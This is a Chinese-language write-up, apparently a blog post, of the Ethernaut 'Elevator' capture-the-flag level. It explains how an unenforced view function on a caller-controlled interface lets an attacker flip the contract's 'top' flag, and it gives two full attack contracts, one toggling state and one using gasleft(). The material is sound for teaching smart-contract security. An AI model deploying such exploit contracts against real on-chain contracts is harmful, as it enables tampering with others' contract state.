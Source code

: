 ```yaml
---
layout: post
title: Elevator
tags: [ethernaut]
---
```


# Elevator
关于view、pure等合约标签
```solidity
pragma solidity ^0.4.18;


interface Building {
  function isLastFloor(uint) view public returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

### 代码分析
```solidity
if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
```
要使top为true，即building.isLastFloor(_floor)两次调用的结果不同，第一次返回false，第二次返回true。
isLastFloor方法为view方法，该方法应该为只读取state但不修改state，但是这一点并不是强制的，即该方法如果修改
了state也是可以进行调用的。

*注意，也可以使用gasleft()来达成该攻击目的，但不对state进行修改*

### 攻击合约
官方答案：
```solidity
pragma solidity ^0.4.18;

import '../levels/Elevator.sol';

contract ElevatorAttack {
  bool public isLast = true;
  
  function isLastFloor(uint) public returns (bool) {
    isLast = ! isLast;
    return isLast;
  }

  function attack(address _victim) public {
    Elevator elevator = Elevator(_victim);
    elevator.goTo(10);
  }
}
```
使用gasleft:
```solidity
pragma solidity ^0.4.0;
contract GET {
    address addr;
    uint256 gasAmount = 100361;
    function GET() public {
        addr = 0x3359cdfc05ee2569458f6b6f52e721776cb5205e; //instance address
    }
    
    function isLastFloor(uint256 amount) public view returns(bool) {
        if (gasleft() > amount) {
            return true;
        } else {
            return false;
        }
    }
    
    // You can pass a amount between gasleft() first and gasleft() sencond
    // It will also pass the Elevator
    function send(uint256 amount) public {
        addr.gas(gasAmount).call(bytes4(keccak256("goTo(uint256)")), amount);
    }
}
```
关于amount的选定，需要通过实际的执行，通过etherscan上的geth debugtrace来追踪gas的使用情况，从而选择符合条件
的gas数量。

### 攻击方法
#### 使用官方攻击合约
1. 调用官方攻击合约的attack方法

#### 使用gasleft方法
1. 试调用send()方法（第一次可以传一个较大的值），查询到gas的使用情况（gasLimit保持一致），从而选定amount的值
2. 调用send()方法，传入正确的amount
